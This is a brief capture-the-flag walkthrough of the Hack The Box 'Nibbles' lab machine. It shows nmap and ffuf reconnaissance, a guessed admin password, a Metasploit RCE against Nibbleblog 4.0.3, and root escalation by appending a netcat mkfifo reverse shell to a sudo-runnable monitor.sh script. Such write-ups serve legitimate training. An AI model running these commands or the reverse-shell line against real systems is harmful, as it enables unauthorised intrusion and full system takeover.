


# [Nibbles](https://www.hackthebox.com/machines/nibbles)

```
nmap -p22,80 -sC -sV 10.10.10.75
```



On source code of web page (Ctrl+U)


Let's do directory brute-force
```bash
ffuf -u http://10.10.10.75/nibbleblog/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Now, let's analyze this directoies, look for what we find.

I see that there is 'nibbleblog/admin.php' , let's login to here trying with username and password.

username:admin
password: nibbles


On plugins section, I add my php file into here. (My image section and configure)


On README (/nibbleblog/README) page of web application I see that, 
Nibbleblog v4.0.3 version is used,
we have RCE for this version


Let's use this by msfconsole.


And add required fields by showing (show options) and set fields due to my username,password,rhosts,targeturi


user.txt


While, looking at the permissions of nibbler user.


I see that I can run monitor.sh file with root privileges (sudo)


Let's run below script to get normal shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then, I add my reverse shell into this file.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1337 >/tmp/f' | tee -a monitor.sh
```


Run this script as root user.


root.txt


